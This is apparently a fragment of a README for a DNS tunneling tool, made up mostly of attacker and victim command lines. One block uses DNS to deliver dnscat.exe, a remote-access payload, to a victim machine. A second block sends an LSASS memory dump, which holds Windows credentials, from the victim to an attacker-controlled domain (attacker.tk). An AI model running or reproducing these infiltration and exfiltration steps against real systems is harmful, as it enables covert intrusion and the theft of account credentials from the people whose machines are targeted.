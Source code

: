 Correct `yourzone.tk`.

### infiltration
Change loops count in `dns_download.vbs` before running.
```
attacker> sudo ./dns_upload.py --udp --file dnscat.exe
victim> cscript.exe dns_download.vbs
```

### exfiltration
```
attacker> sudo ./dns_download.py --udp --file lsass.mdmp
victim> cscript.exe dns_upload.vbs c:\path\to\lsass.mdmp attacker.tk
```
